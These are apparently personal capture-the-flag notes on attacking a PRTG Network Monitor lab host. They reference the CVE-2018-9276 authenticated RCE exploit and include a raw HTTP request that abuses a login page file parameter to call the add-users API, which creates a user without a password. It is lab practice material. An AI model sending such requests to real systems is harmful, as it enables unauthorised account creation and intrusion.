 
googled: PRTG Network Monitor 18.1.37 poc

CVE-2018-9276 PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution
https://www.exploit-db.com/exploits/46527

---
We need auth for ^

```http
POST /public/login.htm?file=/api/addusers.htm HTTP/1.1
Host: 10.10.10.152
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 32
Origin: http://10.10.10.152
Connection: close
X-Requested-With: XMLHttpRequest
Referer: http://10.10.10.152
Priority: u=0, i

id=200&users=sofia%40fixit42.com
```

![[Images/Pasted image 20250517012006.png]]

A user is still created but has no password. we need to find a way to auth to do the next step
If email worked we would have it


